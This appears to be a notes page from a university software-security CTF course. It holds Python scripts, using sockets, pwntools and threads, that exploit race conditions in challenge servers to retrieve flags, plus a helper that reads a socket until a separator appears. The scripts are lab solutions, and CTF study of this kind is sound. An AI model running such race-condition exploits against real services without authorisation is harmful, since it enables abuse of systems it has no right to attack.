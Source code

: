 # Race condition

### Create socket with python directly (practice-5)
```python
import socket

with socket.create_connection(('tasks.ws24.softsec.rub.de', 33269)) as so:
    while True:
        so.sendall(b'vuln\n')
        potential_flag = so.recv(1024)
        if b'softsec{' in potential_flag:
            print(potential_flag)
            break

        so.sendall(b'/flag\n')
        so.recv(1024)
```


### Create multiple threads with socket (30 santa) 
```python
import pwn
import socket
import threading

def get_presents():
    while True:
        try:
            with socket.create_connection(('127.0.0.1', 1024)) as so:
                response = b''
                while b'What do you want to do?\n> ' not in response:
                    response += so.recv(1024)
                so.sendall(b'Get presents\n')
                response = so.recv(1024)
                if b'softsec' in response:
                    print(response)
        except:
            continue

for _ in range(15):
    t = threading.Thread(target=get_presents)
    t.start()

t = threading.Thread(target=get_presents)
t.start()
t.join()
```


### Create multiple threads (30 santa)
- here is use pwntools send function, but threading
```python
import pwn
import threading

pwn.context.arch = 'amd64'

# 1) docker compose -f debug.yml up

# a new instance sets count to zero
def spawn_new():
    while(True):
        new_conn = pwn.remote('tasks.ws24.softsec.rub.de', 32984, level='error')
        #new_conn = pwn.remote('127.0.0.1', 1024, level='error')
        new_conn.close()

# if count = 0 when we check, we win
def send_naughty():
    conn_naughty = pwn.remote('tasks.ws24.softsec.rub.de', 32984, level='error')
    #conn_naughty = pwn.remote('127.0.0.1', 1024, level='error')
    while(True):
        conn_naughty.sendlineafter(b'> ', b'Get presents')
        potential_flag = conn_naughty.recvline()
        if b'softsec' in potential_flag:
            print(potential_flag)
            break

# set count to zero often
for _ in range(15):
    t = threading.Thread(target=spawn_new)
    t.start()

# try to win
t4 = threading.Thread(target=send_naughty)
t4.start()
t4.join()
```


### Implement recvuntil using socket
- pwntools recvuntil is too slow for race conditions
- unlike pwntools' recvline, recv will read up to (but probably fewer than) the specified number of bytes, and stop when there is no more data to read currently. If you're waiting on a response from the server, that will typically be the data from a single write on the server side. This means that sometimes you will get more than one line in a single recv, and sometimes you may need multiple recv calls to receive the entire repsonse from the server. In general, you can implement pwntools' recvuntil by receiving data in a loop until the separator shows up (though this means you may have additional data that you didn't want to process yet, etc.). Mostly, the server should behave consistently, so once you figured out where the data you want from a recv is, you should be able to just grab it.
```python
import socket

# Open the connection. The `with` part means that the socket will
# close automatically when you leave the scope
with socket.create_connection(('example.com', 80)) as so:
    # Send some data, and make sure that it all arrives
    so.sendall(b'HEAD / HTTP/1.1\r\nHost: example.com\r\n\r\n')

    # Read until we see the end of the headers (CRLF x2)
    response = b''
    while b'\r\n\r\n' not in response:
        # Receive _up to 1024 bytes_ (from a single server write)
        response += so.recv(1024)

    # Process the response somehow
    assert response.endswith(b'\r\n\r\n'), 'Unexpected data after headers'
    print(response.decode())
```
